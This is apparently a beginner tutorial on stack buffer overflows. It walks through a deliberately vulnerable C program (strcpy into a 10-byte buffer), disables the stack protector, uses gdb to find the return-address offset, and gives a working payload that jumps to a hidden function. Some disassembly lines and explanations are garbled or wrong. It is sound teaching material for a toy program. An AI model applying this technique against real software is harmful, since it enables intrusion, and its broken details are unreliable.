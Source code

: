 # bof

<strong>Buffer overflow</strong> is one of the most common software vulnerability. It happens when we write more data that should be stored in a buffer. 

<p>Let's see one example about it:</p>

```
#include <stdio.h>
#include <string.h>

void secret() {
    printf("You shouldnt be here\n");
}

void function(const char* input) {
    char data[10];
    
    strcpy(data, input);
    
    if (!strcmp(data, "something")) { // " " -> any value until 10 bytes
        printf("normal stuff\n");
    } else {
        printf("Try again\n");
    } 
}

int main (int argc, const char* argv[]) {

    if (argc > 1) {
        function(argv[1]);
    } else {
        printf("You need at least one argument\n");
    }
    
    return 0; 
}
```

<p>There is a problem here: <strong>strcpy</strong>. This function copies the input to destination without having control of the amount, in other words, we can save more than 10 bytes and it will be ok, because the function doesn't check if it matches with the array's total bytes.</p>

<p>Running the code:</p>
```
gcc -m32 overflow.c -o overflow 
./overflow AAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>The result is:</p>
```
Try again. 
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

<p>There are several reasons that compilation is aborted, but in this case it may be because we are accessing an invalid memory address (unmapped memory).</p>

<p>Then I write it:</p>
```
gcc -m32 overflow.c -o overflow -fno-stack-protector
./overflow AAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>The new result is:</p>
```
Try again.
Segmentation fault (core dumped)
```

<p>I put:</p>
```
gdb overflow
```

<p>Now I can command stuffs to gdb </p>
```
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>I receive:</p>
```
Starting program: /.../ AAAAAAAAAAAAAAAAAAAAAAAAA
Try Again

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

<p>So I would like to see registers info</p>
```
(gdb) info registers
```

```
eax         0xa      10
ecx         0x56558160      1448444256
edx         0xf7fb7890      -134514544
ebx         0x41414141      1094795585
esp         0xffffd100      0xffffd100
ebp         0x41414141      0x41414141
esi         0xf7fb6000      -134520832
edi         0x0      0      
eip         0x41414141      0x41414141
eflags      0x10282  [ SF UF RF ]
cs          0x23     35
ss          0x2b     43
ds          0x2b     43
es          0x2b     43
fs          0x0      0
gs          0x63     99
```

<p>If I  write it (in below) to get more info about the main function:</p>
```
(gdb) disas main
``` 

<p>I have this result:</p>
``` 
Dump of assembler code for function main:
   0x56555612 <+0>:     lea     0x4(%esp),%ecx
   0x56555616 <+4>:     and     $0xfffffff0,%esp
   0x56555619 <+7>:     pushl   -0x4(%ecx)
   0x5655561c <+10>:    push    %ebp
   0x5655561d <+11>:    mov     %esp,%ebp
   0x5655561f <+13>:    push    %ebx
   0x56555620 <+14>:    push    %ecx
   0x56555621 <+15>:    call    0x5655566b <__x86.get_pc_thunk.ax>
   0x56555626 <+20>:    add     $0x19aa,%eax
   0x5655562b <+25>:    mov     %ecx,%edx
   0x5655562d <+27>:    cmpl    $0x1,(%edx)
   0x56555630 <+30>:    jle     0x56555648 <main+54>
   0x56555632 <+32>:    mov     0x4(%edx),%eax
   0x56555635 <+35>:    add     $0x4,%eax
   0x56555638 <+38>:    mov     (%eax),%eax
   0x5655563a <+40>:    sub     $0x,%esp
   0x5655563d <+43>:    push    %eax
   0x5655563e <+44>:    call    0x565555a8 <function>
   0x56555643 <+49>:    add     $0x10,%esp
   0x56555646 <+52>:    jmp     0x5655565c <main+74>
---Type <return> to continue, or q <return> to quit
   0x56555648 <+54>:    sub     $0xc,%esp
   0x5655564b <+57>:    lea     -0x18a8(%eax),%edx
   0x56555651 <+63>:    push    %edx
   0x56555652 <+64>:    mov     %eax, %ebx
   0x56555654 <+66>:    call    0x56555410 <puts@plt>
   0x56555659 <+71>:    add     $0x10,%esp
   0x5655565c <+74>:    mov     $0x0,%eax
   0x56555661 <+79>:    lea     -0x8(%ebp),%esp
   0x56555664 <+82>:    pop     %ecx
   0x56555665 <+83>:    pop     %ebx
   0x56555666 <+84>:    pop     %ebp
   0x56555667 <+85>:    lea     -0x4(%ecx),%esp
   0x5655566a <+88>:    ret
End of assembler dump.
``` 

<p>As we see, the main funcion calls the function called "function" in +44.</p>

<p>When we execute the CALL instruction to perform the function call, the instruction pointer (eip) of the next instruction will be stored in the stack. Then we change the address to the function address and execute the function. Also, we need to save the address in the stack to know where to go back.</p>

<p>Now we know why the eip has the value 0x41414141,it's because we overwrite the return address on the stack when the function ends. It takes the address from the stack and puts it in the eip, so the processor will execute the instructions from this area, but it's an unmapped region, in other words, segmentation fault occurs.</p>

<p>We're going to explore more about it:</p>
``` 
disas secret
``` 

``` 
Dump of assembler code for function secret:
   0x5655557d <+0>:     push    %ebp
   0x5655557e <+1>:     mov     %ebp,%esp
   0x56555580 <+3>:     push    %ebx
   0x56555581 <+4>:     sub     $esp,%0x4
   0x56555584 <+7>:     call    0x5655566b <__x86.get_pc_thunk.ax>
   0x56555589 <+12>:    add     $0x1a47,%eax
   0x5655558e <+17>:    sub     $0xc,%esp
   0x56555591 <+20>:    lea     -0x18e0(%eax),%edx
   0x56555597 <+26>:    push    %edx
   0x56555598 <+27>:    mov     %eax,%ebx
   0x5655559a <+29>:    call    0x56555410 <puts@plt>
   0x5655559f <+34>:    add     $0x10,%esp
   0x565555a2 <+37>:    nop
   0x565555a3 <+38>:    mov     -0x4(%ebp),%ebx
   0x565555a6 <+41>:    leave
   0x565555a7 <+42>:    ret
End of assembler dump.
``` 

<p>The secret adress is <strong>0x5655557d +0</strong>. How I know this? Just because it is the first instruction on the function. In addition, if I do more tests like using AAAAAAAAAAAAAAAAAAAAAABBBB, the eip changes to 0x42424242. So after 22 bytes (22 times A) we have the saved value of the return function, so let's put 0x5655557d on it.</p>

```
(gdb) run $(python -c 'print "A" * 22 + "\x7d\x55\x55\x56"')
``` 

``` 
Try again.
You shouldnt be here

Program received signal SIGSEGV, Segmentation fault.
0xffffd300 in ?? ()
``` 